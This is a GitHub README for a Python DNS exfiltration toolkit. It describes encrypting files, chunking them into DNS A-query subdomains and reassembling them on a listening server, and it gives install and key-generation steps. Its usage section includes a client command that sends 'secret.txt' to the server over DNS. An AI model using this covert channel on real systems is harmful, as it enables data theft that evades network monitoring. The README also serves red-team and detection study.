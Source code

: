 # DNS Exfiltration Client & Server (v2.4)

This toolkit demonstrates secure, authenticated DNS-based file exfiltration using modern cryptography:

- **Perfect Forward Secrecy** via ephemeral X25519 ECDH  
- **Authenticated encryption** using AES-GCM for confidentiality + HMAC-SHA256 for integrity  
- **Base32** payload encoding for DNS-safe transfers  
- **Chunked UDP DNS A queries** for transport  
- **Stateless session reassembly** on the server keyed by client UUID  

---

## 🔧 Components

1. **client.py**  
   - Generates an ephemeral X25519 keypair per transfer  
   - Sends your public key in Base32 chunks (`<id>-0-0-<pubkey>`)  
   - Derives a per-transfer AES (32 B) + HMAC (16 B) key via HKDF  
   - Encrypts your file with AES-GCM (12 B nonce)  
   - Appends an HMAC-SHA256 tag to the ciphertext  
   - Base32-encodes the combined blob, splits into 63-char subdomains, and issues DNS A queries  
   - Retries missing chunks up to `MAX_RETRIES`  

2. **server.py**  
   - Listens on UDP port 5300 for DNS A queries  
   - Parses `<id>-<idx>-<total>-<fragment>` subdomains  
   - On `idx=0,total=0`, reassembles client’s ephemeral public key and performs ECDH → HKDF  
   - Buffers Base32 fragments, applies padding, and decodes via `base64.b32decode`  
   - Splits out the last 32 bytes as HMAC tag and verifies it, then AES-GCM decrypts  
   - Writes plaintext to `output/<id>.bin` and cleans up idle sessions  

---

## 📥 Installation

```bash
git clone https://github.com/bufo333/python-dns-exfiltration-client-server.git
cd python-dns-exfiltration-client-server
python3 -m venv venv
source venv/bin/activate
pip install -r requirements.txt
```

---

## 🔒 Configuration

Create a `.env` in the project root for the server:

```ini
SERVER_PRIVATE_KEY=./server.key
```

- `server.key` must be a raw 32 B X25519 private key (no PEM header).  
- Generate one in Bash:

  ```bash
  python3 - << 'EOF'
  from cryptography.hazmat.primitives.asymmetric import x25519
  from cryptography.hazmat.primitives import serialization
  key = x25519.X25519PrivateKey.generate()
  raw = key.private_bytes(
    encoding=serialization.Encoding.Raw,
    format=serialization.PrivateFormat.Raw,
    encryption_algorithm=serialization.NoEncryption()
  )
  open('server.key','wb').write(raw)
  EOF
  ```

---

## 🚀 Usage

### Start Server

```bash
python server.py --port 5300 --domain example.com --output-dir output
```

By default, it reads `SERVER_PRIVATE_KEY` from `.env` (override with `--server-key`).

### Run Client

```bash
python client.py \
  --server-ip 127.0.0.1 \
  --server-port 5300 \
  --domain example.com \
  --server-pubkey server_public.key \
  --file-path secret.txt
```

The client first exchanges keys (`0-0` subdomain) then sends encrypted + HMAC-tagged chunks:  
`<id>-<i>-<total>-<data>`

---

## 🔍 What HMAC Adds

- **Integrity**: ensures ciphertext wasn’t altered  
- **Authentication**: only someone with the HMAC key can produce valid tags  

---

## ⚙️ CLI Reference

**Server**:

```text
usage: server.py [-h] [--port PORT] [--output-dir DIR]
                 [--low LOW] [--high HIGH]
                 [--domain DOMAIN] [--server-key PATH]
```

**Client**:

```text
usage: client.py [-h] [--server-ip IP] [--server-port PORT]
                 [--domain DOMAIN] [--server-pubkey PATH]
                 --file-path FILE_PATH
```

---

## 📁 Output

Decrypted files land in `--output-dir` (default `output/`). File names match the session ID.

---

## 🛡️ Security Notes

- Fresh ECDH key per transfer → **forward secrecy**  
- AES-GCM + HMAC → **confidentiality**, **integrity**, **authentication**  
- No persistent session state  

---

## 📜 License & Author

**Author:** John Burns  
**Date:** 2025-05-02  
**License:** GPL-3.0  
```  
